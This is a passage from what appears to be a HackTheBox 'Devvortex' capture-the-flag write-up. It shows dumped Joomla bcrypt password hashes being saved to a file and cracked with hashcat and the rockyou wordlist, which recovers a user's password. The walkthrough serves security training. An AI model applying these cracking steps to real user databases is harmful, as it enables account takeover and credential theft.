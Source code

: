 ```
+------------+----------+--------------------------------------------------------------+
| name       | username | password                                                     |
+------------+----------+--------------------------------------------------------------+
| lewis      | lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan paul | logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+------------+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)

```

I’ll save those to a file:

```

oxdf@hacky$ cat joomla.hashes 
lewis:$2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u
logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12

```

### Crack Hashes

I’ll pass this file to `hashcat` along with the `rockyou.txt` wordlist. It starts in auto-detect mode, but fails as there are multiple possible matches:

```

oxdf@corum:~/hackthebox/devvortex-10.10.11.242$ hashcat joomla.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
hashcat (v6.2.6) starting in autodetect mode
...[snip]...

The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].
...[snip]...

```

Unless I know otherwise, it’s always worth trying basic bcrypt (3200). I can also start in the background registering an account and then fetching the password to try to crack it with different modes to see which it is. But I won’t need that here as 3200 works rather quickly for logan’s hash:

```

oxdf@corum:~/hackthebox/devvortex-10.10.11.242$ hashcat joomla.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user -m 3200
hashcat (v6.2.6) starting
...[snip]...
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho

```
